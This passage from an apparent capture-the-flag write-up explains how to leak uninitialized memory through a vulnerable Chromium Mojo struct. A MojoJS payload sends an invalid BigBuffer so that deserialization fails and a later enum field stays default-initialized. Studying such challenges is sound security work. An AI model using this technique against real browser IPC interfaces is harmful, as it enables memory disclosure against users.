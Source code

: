 
With validation out of the way, we know that all the members of our serialized data must be structurally valid. For example, we can't have missing fields. On the other hand, there is additional deserialization logic which can fail. 

When deserialization of a field fails, the Mojo code will immediately abort deserialization of later fields. Thus, the rest of the fields will be default-initialized. In this scenario, the ordering of the members of our vulnerable struct is very important.

```mojom
struct Wreck {
  uint32 size;
  uint32 length_to_use;
  mojo_base.mojom.BigBuffer? data;

  DesertType type;
};
```

Note how the `DesertType` field comes after all the other fields, most notably the `mojo_base.mojom.BigBuffer` field. If we can get the `data` to fail deserialization (not validation, just deserialization), then our enum will be default constructed. Thus, we will be able to leak uninitalized data and solve the challenge!

To do this we can look at the deserialization code for BigBuffer, which is found in [big_buffer_mojom_traits.cc](https://source.chromium.org/chromium/chromium/src/+/main:mojo/public/cpp/base/big_buffer_mojom_traits.cc). From the `::Read` method, we observe that we can simply pass in a `INVALID_BUFFER` to get the deserialization to fail. 

```c++
    case mojo_base::mojom::BigBufferDataView::Tag::INVALID_BUFFER:
      // Always reject an invalid buffer in deserialization.
      return false;
```

In MojoJS, this would be as follows. 

```javascript
const payload = {
  ...other_fields,
  // note that this type will be default in initialized
  // the value we set for it does not matter
  type: blink.mojom.DesertType.EMPTY,
  data: {
    $tag: mojoBase.mojom.BigBuffer.Tags.invalidBuffer,
    invalidBuffer: true
  }
}
```

Note that the default initialized enum only works because of the explicit Enum definitions. 

```
// Desert (noun)
enum DesertType {
  // 1. A barren or desolate area
  DESOLATE = 0x1337,
  // 2. An empty or forsaken place
  EMPTY = 0x7331
};
```
